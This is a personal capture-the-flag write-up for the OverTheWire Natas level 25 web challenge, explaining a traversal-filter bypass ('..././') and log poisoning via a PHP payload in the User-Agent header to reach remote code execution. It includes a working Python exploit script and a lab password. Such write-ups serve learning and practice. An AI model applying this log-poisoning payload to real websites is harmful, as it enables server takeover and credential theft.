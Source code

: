 
2024-07-25 18:59

Source: #web  #natas 

Tags: [[LFI]]
### Natas25

- we have a page with some quote written on it and a language dropdown with `de` and `en` as 2 options 
- a function is called that sets the language - in that function a `safeinclude` named function is called that takes a filename as input and checks for directory traversal
- The `safeinclude` function replaces instances of `../` with empty strings and generates a log file in a specified path which is vulnerable 
- the `safeinclude` function also checks if "natas_webpass" is in the filename, 

Try directory traversal in a way like - `..././` so even if `../` is replaced with `""`  the remaining still equals  `../`
we can use this technique to get access to everything in the file system **including the log files** 

because we can control what this HTTP user agent is (that is input for us) we can modify that HTTP header so because we're including this file and because it's being spat out from the web server, that is looking at PHP code normally right we've got notices and warnings and all these other issues that are coming through what if we put PHP code as our user agent 

we'll be able to read it because we can specify we want our user agent to be the string which will get injected into that log entry and will be able to read because of local file inclusion and then it'll evaluate that PHP and give us remote code execution( [[RCE]]) with this .

```python
import requests
username = 'natas25'
password = 'ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws'

url = 'http://natas25.natas.labs.overthewire.org/'
session = requests.Session()

headers = {"User-Agent": "<?php system('cat /etc/natas_webpass/natas26');?>"}

response = session.get(url,auth=(username,password))

response = session.post(url,headers=headers,data={"lang": "..././..././..././..././..././/var/www/natas/natas25/logs/natas25_"+session.cookies['PHPSESSID']+".log"},auth=(username,password))

print(response.text)
```

### References
https://www.youtube.com/watch?v=K1rBD0lJ0o8